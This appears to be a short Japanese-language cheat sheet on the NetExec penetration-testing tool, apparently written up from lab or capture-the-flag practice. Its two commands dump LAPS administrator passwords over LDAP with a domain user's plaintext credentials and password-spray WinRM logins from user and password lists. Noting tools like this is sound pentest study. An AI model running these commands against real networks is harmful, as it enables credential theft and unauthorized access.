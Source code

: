 # NetExec
[ドキュメント](https://www.netexec.wiki/getting-started/using-kerberos)  
[ギッハブ](https://github.com/Pennyw0rth/NetExec)

## 概要
crackmapexecがあまり保守されなくなったぽいのでそれの後継的なポジ。  
大規模ネットワークのセキュリティ評価を自動化するのに役立つペンテツールっぽい。  
ドキュメントちゃんとしてていい。

## コマンド集
1. LAPS読み取りの権限を持つドメインユーザの認証情報を使ってLAPSパスワードをダンプする。
```
nxc ldap 192.168.142.122 -u fmcsorley -p CrabSharkJellyfish192 -M laps
```

2. 認証情報のセットが一致してもパスワードスプレーを続ける
```
nxc winrm sauna.egotistical-bank.local -u ./creds/users.txt -p ./creds/pass.txt --continue-on-success
```